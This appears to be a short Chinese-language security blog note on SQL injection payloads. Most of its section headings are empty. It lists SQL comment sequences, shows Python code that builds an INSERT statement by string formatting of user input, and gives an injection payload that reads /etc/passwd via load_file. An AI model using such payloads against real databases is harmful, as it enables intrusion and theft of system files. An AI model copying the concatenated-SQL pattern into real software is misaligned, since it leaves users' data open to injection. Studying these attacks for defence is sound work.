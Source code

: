 ```yaml
---
title: 各类SQL注入payload
date: 2018-04-02 20:29:01
tags: Web安全
categories: Web安全
visible: hide
---
```


**数据库注释**

```
#
--
-- -
--+
//
/**/
/*letmetest*/
;
```

##select 注入

### 报错和有回显类

### 盲注

#### 布尔盲注

#### 时间盲注

##insert注入

```python

def index():
    form = PostForm()
    if form.validate_on_submit():
        res = mysql.Add("post", ['NULL', "'%s'" % form.post.data,
                                 "'%s'" % current_user.id, "'%s'" % now()])
#省略部分
```



```python
def Add(self, tablename, values):
        sql = "insert into " + tablename + " "
        sql += "values ("
        sql += "".join(i + "," for i in values)[:-1]
        sql += ")"
        try:
            self.db_session.execute(sql)
            self.db_session.commit()
            return 1
        except:
            return 0
```

  ```mysql
insert into 'tablename' values('NULL','123456',1,'2018-03-24T21:44:39Z'),(NULL,(select conv(hex(substr(load_file('/etc/passwd'),1,6)),16,10)),2,'2018-03-24T21:44:39Z')#)
  ```

```mysql
123456',1,'2018-03-24T21:44:39Z'),(NULL,(select conv(hex(substr(load_file('/etc/passwd'),1,6)),16,10)),2,'2018-03-24T21:44:39Z')#
```

## sqlmap payload





